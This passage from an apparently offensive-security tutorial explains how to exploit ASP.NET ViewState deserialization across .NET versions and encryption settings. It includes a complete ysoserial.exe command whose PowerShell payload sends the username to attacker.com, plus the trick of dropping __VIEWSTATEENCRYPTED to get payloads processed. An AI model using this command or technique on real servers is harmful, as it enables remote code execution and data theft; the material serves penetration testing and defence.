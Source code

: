 If you are lucky and the key is found,you can proceed with the attack using [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net)**:**

```
ysoserial.exe -p ViewState -g TextFormattingRunProperties -c "powershell.exe Invoke-WebRequest -Uri http://attacker.com/$env:UserName" --generator=CA0B0334 --validationalg="SHA1" --validationkey="C551753B0325187D1759B4FB055B44F7C5077B016C02AF674E8DE69351B69FEFD045A267308AA2DAB81B69919402D7886A6E986473EEEC9556A9003357F5ED45"

--generator = {__VIWESTATEGENERATOR parameter value}
```

In cases where `_VIEWSTATEGENERATOR` parameter **isn't sent** by the server you **don't** need to **provide** the `--generator` parameter **but these ones**:

```bash
--apppath="/" --path="/hello.aspx"
```

### Test Case: 3 – .Net < 4.5 and EnableViewStateMac=true/false and ViewStateEncryptionMode=true

In this case Burp doesn't find if the parameter is protected with MAC because it doesn't recognise the values. Then, the value is probably encrypted and you will **need the Machine Key to encrypt your payload** to exploit the vulnerability.

![](https://notsosecure.com/sites/all/assets/group/nss\_uploads/2019/06/3.0.png)

**In this case the** [**Blacklist3r**](https://github.com/NotSoSecure/Blacklist3r/tree/master/MachineKey/AspDotNetWrapper) **module is under development...**

**Prior to .NET 4.5**, ASP.NET can **accept** an **unencrypted** \_`__VIEWSTATE`\_parameter from the users **even** if **`ViewStateEncryptionMode`** has been set to _**Always**_. ASP.NET **only checks** the **presence** of the **`__VIEWSTATEENCRYPTED`** parameter in the request. **If one removes this parameter, and sends the unencrypted payload, it will still be processed.**

Threfore, if the Machinekey is known (e.g. via a directory traversal issue), [**YSoSerial.Net**](https://github.com/pwntester/ysoserial.net) command used in the **Case 2**, can be used to perform RCE using ViewState deserialization vulnerability.

* Remove `__VIEWSTATEENCRYPTED` parameter from the request in order to exploit the ViewState deserialization vulnerability, else it will return a Viewstate MAC validation error and exploit will fail as shown in Figure:

![](https://notsosecure.com/sites/all/assets/group/nss\_uploads/2019/06/3.1.png)

### Test Case: 4 – .Net >= 4.5 and EnableViewStateMac=true/false and ViewStateEncryptionMode=true/false except both attribute to false

We can force the usage of ASP.NET framework by specifying the below parameter inside the web.config file as shown below.

```markup
<httpRuntime targetFramework="4.5" />
```
